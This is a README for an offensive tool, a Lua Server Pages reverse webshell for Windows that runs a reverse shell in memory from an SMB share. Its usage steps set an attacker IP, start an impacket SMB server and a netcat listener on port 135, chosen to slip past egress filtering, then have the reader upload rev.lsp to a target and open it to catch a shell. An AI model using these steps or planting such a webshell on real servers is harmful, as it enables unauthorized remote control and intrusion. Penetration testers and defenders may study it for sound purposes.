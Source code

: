 # LSP Reverse Shell
A Lua Server Pages reverse webshell for Windows. I noticed there was no '.lsp' webshell of any sort available online, so now there is.

Since the Lua sockets module (the traditional Lua reverse shell method) often isn't installed, this webshell opts instead to execute a reverse shell in-memory off of an SMB share. 

The reverse shell port is set to 135 to avoid any egress issues.

Be sure to install impacket if it isn't already installed, since you'll need smbserver.py.
### Usage:
* ```git clone https://github.com/the-emmons/lsp-reverse-shell```
* ```cd lsp-reverse-shell```
* Change the IP address in 'rev.lsp' to your machine.
* ``` sudo smbserver.py SMB . -comment share -ts -debug -smb2support -username user -password 'pass' ```
* Start a listener in another window with ```sudo nc -nlvp 135```
* Upload the 'rev.lsp' file, open the page, and you should immediately catch a shell.
